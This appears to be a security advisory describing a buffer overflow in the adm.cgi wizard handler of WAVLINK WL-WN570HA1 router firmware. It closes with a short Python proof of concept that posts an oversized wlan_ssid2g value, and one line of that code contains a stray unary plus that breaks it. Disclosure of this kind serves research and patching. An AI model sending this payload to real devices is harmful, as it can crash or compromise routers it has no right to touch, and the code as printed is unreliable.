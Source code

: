 # buff overflow

## WAVLINK_WL_WN570HA1

version: 20220621

## Description:

There is a buff overflow in adm.cgi/set_wzdgw

## Source:

you may download it from : https://www.wavlink.com/en_us/firmware/details/762dc36209.html

## Analyse:


![](5.png)

get value from wlan_ssid2g

![](4.png)

and we can set TouchLinkEn in wireless.cgi

if TouchLinkEn was set, call sprintf, cause buff overflow

## POC
```
url = "http://192.168.0.1/cgi-bin/adm.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'wzdgw', 'wlan_ssid2g': + payload})
``` 
